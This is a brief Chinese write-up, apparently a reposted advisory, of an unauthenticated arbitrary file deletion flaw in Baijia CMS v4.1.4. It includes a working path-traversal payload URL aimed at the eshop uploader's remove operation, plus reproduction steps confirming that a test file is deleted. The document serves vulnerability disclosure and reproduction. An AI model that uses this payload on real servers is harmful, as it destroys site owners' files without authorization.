



# 百家cms v4.1.4 任意文件删除漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3324](https://www.zhihuifly.com/t/topic/3324)

# 百家cms v4.1.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# payload
# 不需要后台权限
# 只能删除文件，不能删除文件夹 `[http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt](http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt)` 
```

设置里需要选择本地，否则删除的不是本地文件



先在根目录下创建qwe.txt作为测试文件



访问payload


查看文件，已经被删除



## 参考链接

> https://xz.aliyun.com/t/7542